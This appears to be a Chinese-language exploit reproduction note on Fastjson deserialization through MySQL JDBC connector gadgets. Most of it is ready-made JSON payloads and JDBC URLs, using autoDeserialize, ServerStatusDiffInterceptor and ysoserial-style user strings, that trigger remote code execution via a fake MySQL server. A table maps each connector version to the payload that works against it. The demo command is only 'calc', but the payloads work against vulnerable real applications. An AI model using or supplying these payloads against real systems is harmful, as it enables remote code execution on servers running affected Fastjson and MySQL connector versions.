 ## Fastjson MySQL gadget复现



### 漏洞复现



payload：**{ \"name\": { \"@type\": \"java.lang.AutoCloseable\", \"@type\": \"com.mysql.jdbc.JDBC4Connection\", \"hostToConnectTo\": \"127.0.0.1\", \"portToConnectTo\": 3306, \"info\": { \"user\": \"yso_CommonsBeanutils1_calc\", \"password\": \"pass\", \"statementInterceptors\": \"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor\", \"autoDeserialize\": \"true\", \"NUM_HOSTS\": \"1\" }, \"databaseToConnectTo\": \"dbname\", \"url\": \"\" } }**

其中{ \"user\": \"yso_CommonsBeanutils1_calc\"是`yso\_是固定（反序列化）CommonsBeanutils1\_（gadget）calc是命令`

```
        String json2="{ \"name\": { \"@type\": \"java.lang.AutoCloseable\", \"@type\": \"com.mysql.jdbc.JDBC4Connection\", \"hostToConnectTo\": \"127.0.0.1\", \"portToConnectTo\": 3306, \"info\": { \"user\": \"yso_CommonsBeanutils1_calc\", \"password\": \"pass\", \"statementInterceptors\": \"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor\", \"autoDeserialize\": \"true\", \"NUM_HOSTS\": \"1\" }, \"databaseToConnectTo\": \"dbname\", \"url\": \"\" } }";
        
        <dependency>
            <groupId>mysql</groupId>
            <artifactId>mysql-connector-java</artifactId>
            <version>5.1.12</version>
        </dependency>

        
        String json2="{ \"name\": { \"@type\":\"java.lang.AutoCloseable\", \"@type\":\"com.mysql.cj.jdbc.ha.LoadBalancedMySQLConnection\", \"proxy\": { \"connectionString\":{ \"url\":\"jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&useSSL=false&user=yso_CommonsBeanutils1_calc\" } } }}";


        <dependency>
            <groupId>mysql</groupId>
            <artifactId>mysql-connector-java</artifactId>
            <version>6.0.2</version>
        </dependency>



```



![image-20211220170706354](https://gitee.com/samny/images/raw/master/summersec//6u07er6ec/6u07er6ec.png)





![image-20211220154409962](https://gitee.com/samny/images/raw/master/summersec//42u44er42ec/42u44er42ec.png)



----

```json
{
       "@type":"java.lang.AutoCloseable",
       "@type":"com.mysql.cj.jdbc.ha.ReplicationMySQLConnection",
       "proxy": {
              "@type":"com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy",
              "connectionUrl":{
                     "@type":"com.mysql.cj.conf.url.ReplicationConnectionUrl",
                     "masters":[{
                            "host":""
                     }],
                     "slaves":[],
                     "properties":{
                            "host":"127.0.0.1",
                            "user":"yso_CommonsCollections4_calc",
                            "dbname":"dbname",
                            "password":"pass",
                            "queryInterceptors":"com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor",
                            "autoDeserialize":"true"
                     }
              }
       }
}
```



---

以下是MySQL反序列化漏洞影响的版本，fastjson只能打5.1.11-5.1.48(反序列化链)、6.0.2/6.0.3(反序列化)、8.0.19(反序列化链)（实测）。

### 影响版本

#### ServerStatusDiffInterceptor触发

* **<8.0.20:** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`
* **6.x(属性名不同):** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`
* **5.1.11及以上的5.x版本（包名没有了cj）:**` jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`
* **5.1.10及以下的5.1.X版本：** 同上，但是需要连接后执行查询。
* **5.0.x:** 还没有`ServerStatusDiffInterceptor`这个东西┓( ´∀` )┏

#### detectCustomCollations触发：

* **5.1.41及以上:** 不可用
* **5.1.29-5.1.40:** `jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_JRE8u20_calc`
* **5.1.28-5.1.19：** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&user=yso_JRE8u20_calc`
* **5.1.18以下的5.1.x版本：** 不可用
* **5.0.x版本不可用**



![image-20211220173824621](https://cdn.jsdelivr.net/gh/SummerSec/Images//52u3652ec52u3652ec.png)



----

### 参考

https://www.cnblogs.com/pickmea/p/15157189.html

https://github.com/fnmsd/MySQL_Fake_Server

https://mp.weixin.qq.com/s/BRBcRtsg2PDGeSCbHKc0fg